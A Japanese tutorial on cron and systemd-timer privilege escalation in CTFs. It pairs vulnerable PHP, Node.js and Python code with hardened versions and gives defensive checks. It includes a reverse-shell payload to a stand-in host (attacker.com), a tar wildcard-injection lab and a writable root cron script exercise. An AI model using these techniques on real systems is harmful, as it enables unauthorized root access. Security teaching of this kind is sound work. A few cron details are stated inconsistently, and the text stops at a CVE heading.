




## TL;DR

- **cron** は時刻ベースのジョブスケジューラだ。`crontab -e` でユーザー crontab を編集し、`/etc/cron.d/`・`/etc/cron.daily/` 等のシステム crontab でルートジョブを管理する。cron 書式は「分 時 日 月 曜日 コマンド」の 5 フィールド。
- **CTF の Linux 権限昇格**で cron は最頻出の攻撃面だ。root が実行するスクリプトが一般ユーザーに書き込み可能・`PATH` が適切でない・ワイルドカード展開に脆弱、という 3 パターンが典型だ。
- **systemd timer** は cron の現代的な代替で、`journalctl` でログが確認できる。`.timer` と `.service` のペアで設定し、ユニットファイルへの書き込み権限が攻撃者に渡ると永続化バックドアになる。

---

## なぜ重要か

「定期実行の設定を間違えると何が起きるのか？」

この問いに即答できないなら、この記事が助けになる。**root が定期実行するスクリプトや設定ファイルが一般ユーザーに書き込み可能になっていると、次のジョブ実行タイミングで root として任意コードが実行される。** cron の仕組みを知れば、なぜ CTF の権限昇格チャレンジで「cron ジョブを探す」が定番初動になるかが見えてくる。

具体的に挙げると：

- `find / -perm -002 -name "*.sh" 2>/dev/null` で書き込み可能なシェルスクリプトを発見し、root cron が実行するスクリプトに悪意あるコードを追記して権限昇格する
- `crontab -l` でユーザー crontab を確認し、`*` が使われているスクリプトへのワイルドカードインジェクションを試みる
- `ls -la /etc/cron.d/` で root 以外が書き込めるジョブファイルを発見してバックドアを仕込む
- systemd timer のユニットファイルが書き込み可能になっており、`ExecStart` を差し替えて root 権限で逆接続シェルを起動する
- インシデントレスポンスで `/var/spool/cron/crontabs/` や `/etc/cron.d/` を確認して攻撃者が仕込んだ永続化ジョブを発見する

> **CTF とは**: Capture The Flag の略。セキュリティ技術を競う演習形式。Linux の権限昇格（Privilege Escalation）チャレンジで cron は最も重要な調査対象の一つだ。

---

## 読む前に確認したい用語

難しい用語は出てきたタイミングで解説するが、以下の概念は記事全体を通して何度も登場する。ざっと目を通してから先に進もう。

**cron の基本**
- **crond（cron デーモン）**: バックグラウンドで動作してジョブのスケジュールを管理するプロセス。`/etc/crontab` と各ユーザーの crontab を定期的に読み込む。
- **crontab**: cron のジョブ定義ファイル。`crontab -e` で編集・`crontab -l` で一覧表示する。ユーザーごとに `/var/spool/cron/crontabs/[ユーザー名]` に保存される。
- **cron 書式**: `分 時 日 月 曜日 コマンド` の 6 フィールド。`*` は全ての値にマッチ・`*/5` は 5 刻みを意味する。

> **`*/5` とは**: 全範囲を 5 刻みで実行する cron の記法。`*/5` を「分」フィールドに書くと `0,5,10,15...55` 分に実行される。
- **`/etc/cron.d/`**: システム管理者がパッケージ用ジョブを置くディレクトリ。`/etc/crontab` と同じ 7 フィールド書式（6 番目にユーザー名が入る）。
- **`/etc/cron.daily/`・`/etc/cron.hourly/`・`/etc/cron.weekly/`**: 日次・時間次・週次でディレクトリ内のスクリプトを実行する仕組み。root として実行される。
- **`at` コマンド**: 1 回限りの将来実行を予約するコマンド。cron が繰り返し実行に対して `at` は単発実行に使う。

**systemd timer**
- **systemd timer（`.timer`）**: systemd が管理する定期実行ユニット。`.service` ファイルと組み合わせて使う。`OnCalendar=` で cron 相当の時刻指定ができる。
- **`.service` ファイル**: timer が起動するサービスの定義。`ExecStart=` にコマンドを書く。
- **`systemctl list-timers`**: 現在有効な全 timer の一覧と次回実行時刻を表示するコマンド。

**攻撃に関連する概念**
- **PATH 注入（PATH Injection）**: cron ジョブが `PATH` 環境変数を適切に設定していない場合に、攻撃者がカレントディレクトリや書き込み可能なディレクトリにコマンドと同名の悪意あるスクリプトを置いて実行させる手法。
- **ワイルドカードインジェクション（Wildcard Injection）**: シェルのワイルドカード（`*`）展開を悪用して、コマンドにオプションとして解釈されるファイル名を作成する攻撃。
- **書き込み可能スクリプト**: root が定期実行するスクリプトに一般ユーザーが書き込み権限を持つ状態。コードを追記するだけで root として任意コードが実行できる。
- **CVE**: Common Vulnerabilities and Exposures の略。世界共通の脆弱性識別番号。
- **CVSS**: Common Vulnerability Scoring System。脆弱性の深刻度を 0.0〜10.0 で評価する指標。

---

## 仕組み

### Linux 定期実行機構の種類



Linux には複数の定期実行機構がある。cron は最も広く使われ・anacron は起動していなかった期間のジョブを遅延実行・at は単発実行・systemd timer は現代的な高機能版だ。攻撃者はこれら全てを永続化の手段として利用できる。

---

### cron への権限昇格攻撃フロー



cron への攻撃は「root が定期実行する処理の入力や実行環境を乗っ取る」という一点に集約される。書き込み権限さえ得れば、次の cron 実行タイミングを待つだけで root が取れる構造だ。

---

### cron のジョブ実行フロー

```mermaid
%%{init: {"theme":"base","themeVariables":{"background":"#0b1117","primaryColor":"#1b222a","primaryBorderColor":"#7fb6e8","primaryTextColor":"#e6edf3","lineColor":"#9db6c9","secondaryColor":"#111827","tertiaryColor":"#0b1117"}}}%%
flowchart LR
    A[crond 起動] --> B[設定読込]
    B --> C[/etc/crontab]
    B --> D[/etc/cron.d/]
    B --> E[ユーザー crontab]
    C --> F[毎分チェック]
    D --> F
    E --> F
    F --> G[時刻一致]
    G --> H[コマンド実行]
    G --> F
```

cron の本質は「設定」と「実行権限」が分離されている点にある。実行ユーザーが root の場合、設定ファイルへの書き込み権限を得るだけで即座に root 権限昇格（Privilege Escalation）へつながる。

**計算量まとめ**

- **crontab の解析**: O(n)。n は設定ファイルの行数。毎分実行されるが通常数ミリ秒で完了。
- **時刻マッチング**: O(1)。各ジョブの 5 フィールドをビットマスクで現在時刻と比較。

**cron の弱点 — 実行環境の分離**

cron ジョブはインタラクティブシェルとは異なる環境で動作する。`PATH` が `"/usr/bin:/bin"` のような最小限の値に設定され、`~/.bashrc` や `~/.profile` は読み込まれない。

> **`PATH` とは**: コマンド名から実行ファイルを探すディレクトリ一覧を格納する環境変数。シェルは `PATH` に列挙されたディレクトリを順番に探してコマンドを見つける。cron の `PATH` が最小限だと、フルパスを書かないコマンドが「見つからない」エラーになる。

これが PATH 注入攻撃が成立する原因でもあり、スクリプトが「手動で動かすと動くのに cron では動かない」バグの原因でもある。

---

### cron の攻撃面マップ



攻撃者はこれらの手法を単独または組み合わせて使う。CTF の権限昇格（Privilege Escalation）では `pspy` というツールでプロセスの起動を監視して root が何を定期実行しているかを調べるのが定番だ。

cron の攻撃は「root が定期実行する処理の入力や実行環境を乗っ取る」という一点に集約される。攻撃面が複数あっても本質は権限境界の崩壊だ。

> **`pspy` とは**: root 権限なしでプロセスの起動・終了をリアルタイム監視するツール。`/proc` ファイルシステムを監視することで、cron ジョブが何をいつ実行しているかを把握できる。HTB・TryHackMe の権限昇格問題で必須ツール。

**計算量まとめ**

- **書き込み可能スクリプト検索**: O(f)。f はファイルシステム全体のエントリ数。`find / -perm -002` で実行。
- **ワイルドカード展開**: O(d)。d は対象ディレクトリのエントリ数。ファイル名がコマンドに展開される。

**攻撃面の弱点 — 見えにくい実行**

cron ジョブは通常のプロセスリスト（`ps aux`）では短命すぎて見えないことが多い。攻撃者が仕込んだバックドアジョブも同様に見えにくいため、インシデントレスポンスでは設定ファイルの棚卸しが必須だ。

---

### systemd timer のライフサイクル



timer 自体は時刻管理だけを担当し、実際に危険になるのは service 側の実行内容だ。そのためユニットファイルの整合性保護が重要になる。cron と異なりログが `journalctl` に記録されるため、実行履歴の追跡が容易だ。

**計算量まとめ**

- **タイマー精度**: cron より精度が高い（秒単位指定可能）。`AccuracySec=` で揺らぎを設定できる。

> **`AccuracySec=` とは**: systemd timer のユニットファイル設定項目。timer の実行時刻に許容する遅延幅を指定する。デフォルトは `1min`（1 分）で、電力消費を減らすために複数の timer をまとめて起動することがある。
- **ログ検索**: O(log l)。l はログエントリ数。journald のインデックスで高速検索。

**systemd timer の弱点 — ユニットファイルの書き込み権限**

`/etc/systemd/system/` 配下のユニットファイルに一般ユーザーが書き込めると、`ExecStart` を悪意あるコマンドに変えて `systemctl daemon-reload && systemctl restart [unit]` を実行するだけで、次回の timer 発火時に root として任意コードが実行される。

---

## よくある誤解

実装に進む前に、間違えやすいポイントを整理しておく。「あー、そうか」と思えるものがあれば、コードを書くときに思い出してほしい。

**「cron の `*` は何でも良い、つまり安全」**
`*` は「全ての値」を意味するが、**シェルがワイルドカードをファイル名に展開する文脈では攻撃者がファイル名で任意のオプションを注入できる**。例えば `tar czf backup.tar.gz *` を root の cron ジョブで実行している場合、`--checkpoint-action=exec=sh rev.sh` というファイル名を作成すると `tar` のオプションとして解釈されてシェルが実行される。

**「`/etc/cron.daily/` のスクリプトは root でしか書き込めないから安全」**
スクリプト自体のパーミッションだけでなく、**スクリプトが呼び出すファイルや読み込む設定ファイルのパーミッション**も重要だ。`source /tmp/config.sh` のようにユーザーが書き込める場所のファイルを root スクリプトが読むと、その設定ファイルを差し替えることで間接的に root コードを実行できる。

**「crontab -e で設定した内容はすぐに反映される」**
cron は 1 分おきに設定ファイルをチェックするため、**設定変更は最大 1 分後に反映される**。ただし `systemctl reload cron` や `service cron reload` で即時再読み込みできる場合がある。

**「`@reboot` は起動時に 1 回だけ実行される」**
`@reboot` の定義通り起動時に 1 回実行されるが、**利用中の cron 実装によって挙動が異なる場合がある**。公式ドキュメントで確認するのが確実だ。バックドアの永続化に `@reboot` を使われた場合は起動時ログだけでなく crontab 全体の確認が必要だ。

**「systemd timer は cron より新しいから安全」**
技術的には systemd timer のほうが多機能だが、**ユニットファイルの書き込み権限管理を誤れば cron と同様に権限昇格の踏み台になる**。むしろ systemd timer は `systemctl enable` で自動起動できるため、攻撃者が永続化する際に使いやすい側面もある。

---

## 脆弱なコード例

> 本記事の攻撃例は学習環境・CTF・明示的に許可された検証環境のみで実施してください。
> 実システムへの無断検証は不正アクセス禁止法や各国法令・利用規約違反となる可能性があります。

### PHP — ユーザー入力から crontab エントリを動的生成する

```php
<?php
$schedule = $_POST['schedule'] ?? '';
$command = $_POST['command'] ?? '';

$cron_entry = "{$schedule} root {$command}\n";
file_put_contents('/etc/cron.d/user_jobs', $cron_entry, FILE_APPEND);
echo "スケジュールを登録しました";
```

> **`$_POST['schedule']` とは**: HTTP POST リクエストのボディパラメータ `schedule` の値を取得する PHP の超グローバル変数。例えばフォームから `schedule=* * * * *` を送ると cron の時刻指定として使われる。
> **`FILE_APPEND` とは**: PHP の `file_put_contents()` のオプションフラグ。ファイルを上書きせずに末尾へ追記する。

**どこが問題か**: `schedule` と `command` をそのまま `/etc/cron.d/user_jobs` に書き込んでいるため、`command=bash -i >& /dev/tcp/attacker.com/4444 0>&1` のような逆接続シェルのコマンドを送るだけで、次の cron 実行時に root として攻撃者のサーバーへシェルが開く。`schedule` に改行を含む入力を送ってエントリを分割する攻撃も成立する。

> **逆接続シェル（リバースシェル）とは**: ターゲットサーバーから攻撃者のサーバーへ向けて接続を確立し、攻撃者側でシェルを操作できるようにする手法。ファイアウォールで外部からの接続が遮断されていても、内部から外への接続は通るケースが多いため広く使われる。

```php
<?php
session_start();

if (!isset($_SESSION['admin']) || $_SESSION['admin'] !== true) {
    http_response_code(403);
    exit("管理者権限が必要です");
}

$schedule = $_POST['schedule'] ?? '';
$command = $_POST['command'] ?? '';

if (!preg_match('/^(\*|[0-9,\-\/]+)\s+(\*|[0-9,\-\/]+)\s+(\*|[0-9,\-\/]+)\s+(\*|[0-9,\-\/]+)\s+(\*|[0-9,\-\/]+)$/', $schedule)) {
    http_response_code(400);
    exit("無効なスケジュール形式です");
}

$allowed_commands = [
    'backup' => '/usr/local/bin/backup.sh',
    'cleanup' => '/usr/local/bin/cleanup.sh',
    'report' => '/usr/local/bin/report.sh',
];

if (!array_key_exists($command, $allowed_commands)) {
    http_response_code(400);
    exit("許可されていないコマンドです");
}

$safe_command = $allowed_commands[$command];
$cron_entry = "{$schedule} www-data {$safe_command}\n";

$temp = tempnam(sys_get_temp_dir(), 'cron');
file_put_contents($temp, $cron_entry);

$dest = '/etc/cron.d/user_jobs_' . bin2hex(random_bytes(8));
rename($temp, $dest);
chmod($dest, 0644);

echo "スケジュールを登録しました";
```

> **`bin2hex(random_bytes(8))` とは**: ランダムな 8 バイトを生成して 16 進数文字列に変換する。生成されるファイル名を推測不可能にして、攻撃者が事前にシンボリックリンクを置くことを防ぐ。
> **`sys_get_temp_dir()` とは**: PHP でシステムの一時ディレクトリパスを返す関数。`tempnam()` と組み合わせてランダムな一時ファイルを安全に作成する。
> **`0644` とは**: 8 進数のパーミッション指定。オーナーが読み書き可能（`rw-`）・グループとその他は読み取りのみ（`r--`）。cron.d ファイルの適切な権限設定だ（先頭の `0` が PHP での 8 進数リテラルを示す）。

管理者認証・スケジュール書式の正規表現検証・コマンドのホワイトリスト化の三重防御で、任意コマンドの注入と cron エントリの改ざんを防ぐ。

cron ジョブはユーザー入力から直接生成せず、許可済みジョブ定義のみ選択させることが安全設計の原則だ。

---

### Node.js — ワイルドカードを含む cron スクリプトへのインジェクション

```javascript
const { execSync } = require('child_process');
const path = require('path');

function backupUserFiles(backupDir) {
    const cmd = `tar czf /backups/backup_$(date +%s).tar.gz ${backupDir}/*`;
    execSync(cmd, { cwd: backupDir });
}

backupUserFiles('/home/uploads');
```

> **`execSync()` とは**: Node.js でシェルコマンドを同期実行する関数。コマンド文字列がそのままシェルに渡されるためメタ文字が展開される。
> **`tar czf` とは**: `tar` コマンドでファイルをまとめて gzip 圧縮するオプションの組み合わせ。`c` は作成（create）・`z` は gzip 圧縮・`f` はファイル名指定（file）。

**どこが問題か**: `/home/uploads/*` のワイルドカードはシェルがディレクトリ内の全ファイル名に展開する。攻撃者が `/home/uploads/` に `--checkpoint=1` と `--checkpoint-action=exec=bash rev.sh` という名前のファイルを作ると、`tar` のオプションとして解釈されて `rev.sh` が実行される。このスクリプトが root cron で動いていれば root シェルが得られる。

```javascript
const { execFile } = require('child_process');
const fs = require('fs');
const path = require('path');

function backupUserFiles(backupDir) {
    const realDir = fs.realpathSync(backupDir);
    const allowedBase = fs.realpathSync('/home/uploads');

    if (!realDir.startsWith(allowedBase + path.sep)) {
        throw new Error('許可されていないディレクトリです');
    }

    const files = fs.readdirSync(realDir)
        .filter(f => /^[a-zA-Z0-9_\-\.]+$/.test(f))
        .map(f => path.join(realDir, f));

    if (files.length === 0) return;

    const timestamp = Date.now();
    const output = `/backups/backup_${timestamp}.tar.gz`;

    execFile('tar', ['czf', output, '--', ...files], (err) => {
        if (err) console.error('バックアップ失敗:', err.message);
    });
}

backupUserFiles('/home/uploads');
```

> **`fs.readdirSync()` とは**: Node.js でディレクトリの内容を配列として読み込む同期関数（read directory synchronously）。ここではファイル名を取得して個別に検証するためにワイルドカードの代わりに使っている。
> **`'--'` とは**: `tar` コマンドにオプション終了を示す区切り。`--` 以降の引数はオプションとして解釈されず、必ずファイル名として扱われる。ワイルドカードインジェクション防止の重要なテクニックだ。
> **`path.sep` とは**: Node.js の `path` モジュールが提供する OS ごとのディレクトリ区切り文字。Linux では `/`・Windows では `\`。`startsWith(allowedBase + path.sep)` とすることで `/home/uploads_extra` のような誤マッチを防ぐ。

ワイルドカードを使わずにファイル名を個別取得・検証し、`--` でオプション境界を明示することで、ワイルドカードインジェクションを根本から防ぐ。

ワイルドカード展開をシェル任せにせず、ファイル一覧を取得して明示的に処理することがシェルインジェクション防止の基本原則だ。

---

### Python — cron の PATH 注入に脆弱なスクリプト

```python
import subprocess
import os

def run_maintenance():
    subprocess.run('cleanup', shell=True)
    subprocess.run('notify-send "Maintenance done"', shell=True)
    subprocess.run('logger -t cron "Maintenance complete"', shell=True)

if __name__ == '__main__':
    run_maintenance()
```

**どこが問題か**: `subprocess.run('cleanup', shell=True)` はシェルの `PATH` から `cleanup` コマンドを検索する。このスクリプトを root の cron ジョブで実行している場合、cron の `PATH` が `/tmp` を含んでいるか、crontab に `PATH=/tmp:...` が設定されていると、攻撃者が `/tmp/cleanup` に悪意あるスクリプトを置くだけで root として実行される。`shell=True` のため他のシェルメタ文字も有効だ。

```python
import subprocess
import os
import shutil

SAFE_PATH = '/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
COMMANDS = {
    'cleanup': '/usr/local/bin/cleanup',
    'logger': '/usr/bin/logger',
}

def resolve_command(name: str) -> str:
    path = COMMANDS.get(name)
    if path is None or not os.path.isfile(path):
        raise FileNotFoundError(f"許可されていないコマンド: {name}")
    return path

def run_maintenance():
    env = {'PATH': SAFE_PATH, 'HOME': '/root', 'LANG': 'C'}

    subprocess.run([resolve_command('cleanup')], env=env, check=True)
    subprocess.run(
        [resolve_command('logger'), '-t', 'cron', 'Maintenance complete'],
        env=env,
        check=True
    )

if __name__ == '__main__':
    run_maintenance()
```

> **`env=env` で環境変数を制限する理由**: cron ジョブが動作する環境変数（特に `PATH`）は攻撃者に制御される可能性がある。最小限の安全な `PATH` を辞書として直接渡すことで、`PATH` 注入と環境変数インジェクション全般を防ぐ。
> **`check=True` とは**: `subprocess.run()` でコマンドが失敗（終了コード非 0）したとき `CalledProcessError` を投げるオプション。サイレントな失敗を防いでエラーを早期発見できる。

コマンドパスをハードコードしてシェルを経由しない実行形式を使い、環境変数を最小限に固定することで、PATH 注入とコマンドインジェクションの両方を防ぐ。

cron ジョブでは絶対パス指定と環境変数固定を徹底し、PATH 解決に依存しない設計にすることが権限昇格（Privilege Escalation）を防ぐ基本原則だ。

---

## 実践例 / 演習例

### cron の調査コマンド（CTF 権限昇格の初動）

```bash
crontab -l
```

> **`crontab -l` とは**: 現在のユーザーの crontab を一覧表示するコマンド（list の略）。root で実行すると root の crontab が見える。

```bash
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.daily/ /etc/cron.hourly/ /etc/cron.weekly/
```

```bash
find / -perm -002 -name "*.sh" 2>/dev/null
```

> **`-perm -002` とは**: その他ユーザー（Others）の書き込みビット（`002`）が立っているファイルを検索する `find` オプション。公開サーバーのスクリプトでこのフラグが立っていると誰でも書き込める危険状態だ。

```bash
find /etc/cron* /var/spool/cron -ls 2>/dev/null
```

### pspy でプロセスを監視する

```bash
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

> **`pspy64` とは**: 64 ビット Linux 向けの `pspy` バイナリ。`/proc` ファイルシステムを監視して、root 権限なしでも全ユーザーのプロセス起動をリアルタイム表示する。HTB・TryHackMe の Linux 権限昇格問題で最も使われるツールの一つだ。

### ワイルドカードインジェクションを理解する

```bash
mkdir /tmp/wildcard_test && cd /tmp/wildcard_test
echo 'id > /tmp/pwned.txt' > rev.sh
chmod +x rev.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=bash rev.sh'
tar cf archive.tar *
cat /tmp/pwned.txt
```

> **`touch -- '--checkpoint=1'`**: `--` はシェルへのオプション終端指示子で、これ以降の引数はファイル名として扱われる。この演習では `--checkpoint=1` というファイル名を作成している。**合法ラボ環境のみで実施すること。**

### systemd timer の調査

```bash
systemctl list-timers --all
```

> **`systemctl list-timers --all`**: 有効・無効を含む全ての systemd timer を一覧表示する。次回実行時刻・前回実行時刻・対応するユニット名が確認できる。

```bash
find /etc/systemd/system/ /lib/systemd/system/ -name "*.timer" -ls 2>/dev/null
find /etc/systemd/system/ /lib/systemd/system/ -name "*.service" -newer /etc/passwd 2>/dev/null
```

> **`-newer /etc/passwd`**: `/etc/passwd` より更新日時が新しいファイルを検索する。侵害後に追加された不審なユニットファイルを時刻ベースで特定するのに使う。

---

## 防御策

### 1. cron ジョブのスクリプトのパーミッションを確認する

```bash
for f in $(grep -rh 'command\|script' /etc/cron* /var/spool/cron 2>/dev/null | \
    grep -oE '(/[^ ]+\.(sh|py|rb|pl))' | sort -u); do
    ls -la "$f" 2>/dev/null
done

grep -rh 'ExecStart' /etc/systemd/system/ /lib/systemd/system/ 2>/dev/null | \
    grep -oE '(/[^ ]+\.(sh|py|rb|pl))' | sort -u | \
    xargs -I{} ls -la {} 2>/dev/null
```

> **`grep -oE '(/[^ ]+\.(sh|py|rb|pl))'`**: 拡張正規表現（`-E`）でマッチした部分のみ（`-o`）を出力するオプションの組み合わせ。スクリプトのパスを抽出する。

### 2. crontab に明示的な PATH を設定する

```
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

* * * * * root /usr/local/bin/maintenance.sh
```

crontab の先頭で `PATH` を明示的に設定することで、攻撃者が環境変数を汚染しても安全なパスのみが使われる。

### 3. ワイルドカードを使わない

```bash
find /home/uploads -maxdepth 1 -type f -name "*.log" -print0 | \
    xargs -0 tar czf /backups/logs_$(date +%Y%m%d).tar.gz
```

> **`-print0` と `xargs -0`**: ファイル名に空白や特殊文字が含まれても安全に処理するための NUL 文字区切りの組み合わせ。`-maxdepth 1` でサブディレクトリを対象外にする。

### 4. systemd timer のユニットファイルの権限を確認する

```bash
find /etc/systemd/system/ /lib/systemd/system/ \( -name "*.service" -o -name "*.timer" \) | \
    xargs ls -la 2>/dev/null | grep -v "^total\|^-r"
```

ユニットファイルのオーナーが root で、root 以外に書き込み権限がないことを確認する。適切なパーミッションは `root:root 644`（読み取りは全員・書き込みは root のみ）だ。

### 5. cron ジョブの実行をログで監視する

```bash
grep CRON /var/log/syslog | tail -50
journalctl -u cron --since "24 hours ago"
```

> **`grep CRON /var/log/syslog`**: syslog 形式のログから cron 関連のエントリを抽出する。cron ジョブの実行開始・終了・エラーが記録されている。

---

## 実演ラボ案内

### 推奨学習順序

- linux-permissions（スクリプトのパーミッションと SUID の基礎）
- process-service-management（systemd・サービス管理の基礎）
- cron-systemd-timer（本記事）
- linux-privilege-escalation（cron・timer を使った権限昇格の総合演習）

### Hack The Box

- **Machines**: Linux マシンの多くで cron による権限昇格が設定されている。侵入後に必ず `pspy64` を転送して定期実行を監視する。`/tmp` や `/var/tmp` に書き込み可能なスクリプトが置かれたら悪意あるコードを追記する機会だ。
- **Challenges — Linux カテゴリ**: ワイルドカードインジェクションや書き込み可能 cron スクリプトが典型的な出題パターンだ。

### TryHackMe

- **Linux PrivEsc**: cron ジョブの書き込み可能スクリプト・PATH 注入・ワイルドカードインジェクションを段階的に練習できる専用ルーム。
- **Cron Jobs**: cron の基礎と悪用手法を体験できる。

### 自宅 VM（合法演習）

```bash
sudo apt install docker.io
docker run -it --rm ubuntu:24.04 bash
```

コンテナ内で安全に実験できる。以下で書き込み可能な cron スクリプトの権限昇格を再現できる。

```bash
mkdir -p /opt/scripts
echo '#!/bin/bash' > /opt/scripts/maintenance.sh
echo 'id >> /tmp/cron_output.txt' >> /opt/scripts/maintenance.sh
chmod 777 /opt/scripts/maintenance.sh

echo '* * * * * root /opt/scripts/maintenance.sh' > /etc/cron.d/test_job
chmod 644 /etc/cron.d/test_job

cat /etc/cron.d/test_job
ls -la /opt/scripts/maintenance.sh
```

> **この演習の意味**: `maintenance.sh` が `777` パーミッション（全ユーザー書き込み可）で root cron が実行する設定になっている。一般ユーザーがこのスクリプトに `bash -i >& /dev/tcp/...` のようなコードを追記すると、次の実行時に root 権限でコードが走る。実際の攻撃手順は**合法ラボ環境のみで確認**すること。

---

## 関連 CVE と被害事例

> **CVE とは**: Common Vulnerabilities and Exposures の略。世界共通の脆弱性識別番号。
> **CVSS スコア**: 脆弱性の深刻度を 0.0〜10.0 で評価した指標。7.0 以上が High・9.0 以上が Critical。

**CVE-2019-14287（sudo — ユーザー ID 指定によるルールバイパス）**
